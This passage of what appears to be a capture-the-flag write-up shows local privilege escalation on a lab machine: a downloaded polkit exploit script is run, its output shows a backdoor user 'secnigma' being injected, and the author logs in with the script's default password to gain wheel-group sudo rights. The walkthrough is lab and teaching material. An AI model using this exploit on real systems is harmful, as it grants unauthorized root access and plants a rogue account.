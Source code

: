     2022-06-05 15:25:11 (1.91 MB/s) - ‘cve-2021-3650.sh’ saved [9627/9627]



Now I just run it:



    [dwight@paper shm]$ bash cve-2021-3650.sh

    [!] Username set as : secnigma
    [!] No Custom Timing specified.
    [!] Timing will be detected Automatically
    [!] Force flag not set.
    [!] Vulnerability checking is ENABLED!
    [!] Starting Vulnerability Checks...
    [!] Checking distribution...
    [!] Detected Linux distribution as "centos"
    [!] Checking if Accountsservice and Gnome-Control-Center is installed
    [+] Accounts service and Gnome-Control-Center Installation Found!!
    [!] Checking if polkit version is vulnerable
    [+] Polkit version appears to be vulnerable!!
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was successful!
    [!] Try to login as the injected user using su - secnigma
    [!] When prompted for password, enter your password 
    [!] If the username is inserted, but the login fails; try running the exploit again.
    [!] If the login was successful,simply enter 'sudo bash' and drop into a root shell!



It might not work every time, but running it repeatedly will eventually
work. I'll change user to the secnigma user with the password
secnigmaftw (from the `README.md` on GitHub):



    [dwight@paper shm]$ su - secnigma
    Password: 
    [secnigma@paper ~]$



Now this user is in the `wheel` group:



    [secnigma@paper ~]$ id
    uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)



This group [allows
members](https://unix.stackexchange.com/a/152445/369627) to run `sudo`.
I'll need the password again, but it works:


